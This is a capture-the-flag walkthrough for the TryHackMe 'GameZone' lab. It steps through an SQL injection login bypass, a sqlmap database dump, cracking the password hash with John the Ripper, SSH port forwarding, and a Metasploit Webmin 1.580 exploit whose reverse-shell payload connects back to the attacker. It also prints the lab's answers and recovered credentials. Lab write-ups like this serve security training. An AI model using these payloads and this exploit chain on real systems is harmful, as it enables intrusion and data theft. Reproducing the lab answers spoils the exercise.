

# GameZone

#### Task 1

Completed all required steps like to start the machine and connect with tryhackme vpn. 

##### Question: What is the name of the large cartoon avatar holding a sniper on the forum?
##### Solution:

I entered the IP of target machine in browser and gun man shown in the page. I took it's screenshot and done google lens on it. I came to found it's name.
##### Answer: agent47

#### Task 2

##### Question: When you've logged in, what page do you get redirected to? 
##### Solution: 
I tried to log in with the given payload of sqli. And I left the 

```bash
' or 1=1-- -
```

We successfully logged in. 



Now look into the browser search bar at the top.
##### Answer: portal.php

#### Task 3

Now at portal.php, there is a search option. I captured the request in burpsuite and saved it into request.txt so that I can use it into sqlmap.

```bash 
sqlmap -r request.txt --dump
```

And it dump the whole database because searchitem parameter is vulnerable. It gave me the database tables like post and users.

##### Question: In the users table, what is the hashed password?
##### Solution: 


##### Question: What was the username associated with the hashed password?
##### Solution: `agent47`(Can see in the above image).

##### Question: What was the other table name?
##### Solution: 

##### Answer: post

##### Question: What is the de-hashed password?
##### Solution: 
Now it's time to crack the password. We are using johntheripper to crak it. Save the hashed password in hash.txt and run the following command:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```


##### Answer: videogamer124

##### Question: What is the user flag?
##### Solution: 
Now you have username and password. Run the ssh command in order to remotely connect with the machine.

```bash
ssh agent47@target_ip
```

Run `cat user.txt` in the target machine and you will get the user flag.


#### Task 5

##### Question: How many TCP sockets are running?
#### Solution:
We need to check that how many tcp sockets are open at target machine. Run the following command on target:

```bash
ss -tulnp
```


You can count the tcp sockets opened in above image. 
#### Answer: 5

##### Question: What is the name of the exposed CMS?
##### Solution: 
Run the following command in your terminal (terminal of attacker machine).

```bash
ssh -L 10000:localhost:10000 agent47@<target_ip>
```

You can notice that port 10000 is opened for ssh. You can confirm it using the command `ss -tulnp`. It will show that port 10000 is opened.

Now you can make a request in your browser (attacker machine) like following:

```
http://localhost:10000
```


You can see that we have got the login page. 
##### Answer: webmin

##### Question: What is the CMS version?
##### Solution: 
You have the login and password. Try it. Boom! We logged into the webmin portal. 


##### Answer: 1.580

#### Task 6

##### Question: What is the root flag?
##### Solution:
As mentioned in the task, we need to use metasploit to exploit the cms version. I opened the Metasploit using the command `msfconsole` and type:
```bash
search 1.580
```
I have shown 2 exploits as shown in the picture:


I selected 0th exploit as it allows us to execute the RCE. For that I used the command `use 0`. Now using the command `show options` I checked which parameters I need to set. I then set the following parameters.

```bash
set RHOSTS 127.0.0.1
```

```bash
set USERNAME agent47
```

```bash
set password videogamer124
```

```bash
set SSL false
```

Then run the command `show payloads` in order to check the available options for this exploit.


Then I selected the payload `payload/cmd/unix/reverse` using the command:

```bash
set payload payload/cmd/unix/reverse
```
Now run `show options` commands then You will find that LHSOT needs to be set for payload. Run the command:

```bash
set LHOST <attacker_ip>
```


In the above picture you can see the final parameters set. Now run the command `exploit`. 

Boom! We got the root access.


Now You can find the flag in /root/root.txt.

.

